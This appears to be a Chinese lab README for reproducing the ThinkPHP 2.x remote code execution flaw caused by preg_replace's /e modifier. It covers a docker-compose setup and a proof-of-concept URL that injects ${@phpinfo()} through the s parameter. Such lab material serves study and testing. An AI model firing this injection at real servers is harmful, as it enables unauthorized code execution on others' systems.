

# ThinkPHP 2.x 任意代码执行漏洞

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：


